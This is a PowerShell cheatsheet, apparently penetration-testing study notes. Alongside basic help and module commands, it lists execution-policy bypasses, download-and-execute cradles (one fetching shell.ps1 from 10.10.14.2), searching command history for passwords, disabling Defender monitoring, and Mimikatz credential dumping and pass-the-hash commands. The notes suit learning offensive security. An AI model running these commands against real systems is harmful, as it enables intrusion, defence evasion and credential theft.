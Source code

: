 # Cheatsheet

## Help System

`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

## Basic Constructs

```
Cmdlets
Function
```

## Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

## Check Environment

- Version info: `powershell -v 2.0 -c $psversiontable`
- Language mode: `$host.runspace.languagemode`
- Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`

## Download Files
```
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```

## Execution Policy

- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell -executionpolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -enc`

> Ref https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6

## Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

## Remote Script execution

- `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `powershell -EncodedCommand <Base64EncodedCommand>`

```
START /B ​ ""​ powershell -c IEX (​ New-Object
Net.Webclient).downloadstring(​ 'http://10.10.14.2/shell.ps1'​ )
```
_/B prevents creation of a new window_

- Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

## Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Powershell Remoting

- Enabled by default from Windows Server 2012
- Admin privileges are required to connect

### One to One

- Uses PSSession
  - Interactive, stateful session
  - Run in a new process `wsmprovhost`

### Useful cmdlets

New-PSSession
Enter-PSSession

```
Set-MpPreference -DisableRealtimeMonitoring $true
New-PSSession -ComputerName instance

$sess = New-PSSession -ComputerName instance
Enter-PSSEssion - Session $sess
```
### One to Many (Fan-out Remoting)

- Non-interactive
- Parallel command execution
- Can execute scripts from files
- Usable to perform command execution without dropping exe onto disk
- Useful for passing and replying hashes, tickets and other AD attacks

Run commands:
```
Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName instance
```

Run scripts:
```
Invoke-Command -FilePath example.ps1 -ComputerName instance
```

Run functions installed on the remote box:
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance
```

Stateful commands:
```
$sess = New-PSSession -ComputerName instance
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

Mimikatz (ReflectivePEInjection is used to load into memory)
```
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```

Pass the Hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

Dump Creds from multiple machines
```
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
```
